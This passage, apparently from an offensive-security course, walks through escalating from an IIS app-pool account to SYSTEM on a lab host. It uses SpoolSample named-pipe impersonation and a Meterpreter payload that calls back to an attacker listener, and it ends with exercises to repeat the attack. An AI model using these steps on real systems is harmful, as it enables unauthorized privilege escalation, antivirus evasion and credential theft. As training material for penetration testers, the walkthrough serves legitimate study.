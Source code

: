 
> Listing 29 - Executing SpoolSample

Once SpoolSample completes, we'll switch back to the original channel, where the print spooler connects to the named pipe:

```
c:\windows\system32\inetsrv> ^Z

Background channel 2? [y/N]  y
meterpreter > 
[*] https://192.168.119.120:443 handling request from 192.168.120.132; (UUID: d3rddshy) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 2 opened (192.168.119.120:443 -> 192.168.120.132:50410)

meterpreter > channel -i 1
Interacting with channel 1...

Found sid S-1-5-18
Impersonated user is: NT AUTHORITY\SYSTEM
```

> Listing 30 - SpoolSample connecting back

Immediately following the print spooler connection, a new Meterpreter session is created.

```
PS C:\windows\system32\inetsrv> ^Z

Background channel 1? [y/N]  y

meterpreter > background
[*] Backgrounding session 1...

msf5 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

> Listing 31 - Obtaining SYSTEM shell

After we background the PowerShell prompt and the current Meterpreter session, we can interact with the new session where we find our SYSTEM shell. Excellent!

In this section, we managed to elevate our privileges from the IIS _DefaultAppPool_ account to that of local SYSTEM through impersonation while bypassing antivirus. This allows us to continue our attack in the next section by obtaining the NTLM hash of the computer account.

**Exercises**

1. Modify the code for PrintSpooferNet to work from a shell with a logon session.
2. Transfer the required files and prepare Metasploit by launching two command prompts along with the listener.
3. Execute the attack and elevate privileges to SYSTEM.

